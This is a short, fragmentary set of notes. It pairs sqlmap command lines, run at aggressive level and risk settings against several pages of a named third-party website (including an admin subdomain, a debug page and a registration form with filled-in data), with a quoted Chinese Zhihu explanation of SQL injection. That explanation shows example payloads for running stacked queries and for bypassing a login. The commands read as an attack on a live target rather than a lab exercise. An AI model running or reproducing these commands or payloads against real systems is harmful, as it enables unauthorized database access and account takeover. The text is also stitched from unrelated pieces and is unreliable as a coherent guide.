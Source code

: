 



sqlmap  Pangolin



SHOW FULL PROCESSLIST;

1
python sqlmap.py -u "http://julong8888.com/myhome.php" --forms  –level=5 –risk=3 –dbs
python sqlmap.py -u "http://admin.julong8888.com/" --forms  –level=5 –risk=3 –dbs
python sqlmap.py -u "http://admin.julong8888.com/index_for_debug.html" --forms  –level=10 –risk=5 –dbs
python sqlmap.py -u "http://julong8888.com/reg.php" –data "zcname=adminxx&zcpwd1=admin4321&zcturename=姓名&zctel=13725676546" –level=5 –risk=3 –dbs


SELECT uid,username FROM user WHERE username='plhwin'
但是，如果用户在浏览器里把传入的username参数变为 plhwin';SHOW TABLES-- hack，也就是当URL变为 http://localhost/test/userinfo.php?username=plhwin';SHOW TABLES-- hack 的时候，此时我们程序实际执行的SQL语句变成了：
SELECT uid,username FROM user WHERE username='plhwin';SHOW TABLES-- hack'



SELECT uid,username FROM user WHERE username='plhwin' AND password='e10adc3949ba59abbe56e057f20f883e'
上面语句没有任何问题，可以看到页面打印出了登录成功后的会员信息，但如果有捣蛋鬼输入的用户名为 plhwin' AND 1=1-- hack，密码随意输入，比如 aaaaaa，那么拼接之后的SQL查询语句就变成了如下内容：
SELECT uid,username FROM user WHERE username='plhwin' AND 1=1-- hack' AND password='0b4e7a0e5fe84ad35fb5f95b9ceeac79'

执行上面的SQL语句，因为 1=1 是永远成立的条件，这意味着黑客只需要知道别人的会员名，无需知道密码就能顺利登录到系统。

作者：潘良虎
链接：https://www.zhihu.com/question/22953267/answer/80141632
来源：知乎
著作权归作者所有，转载请联系作者获得授权。


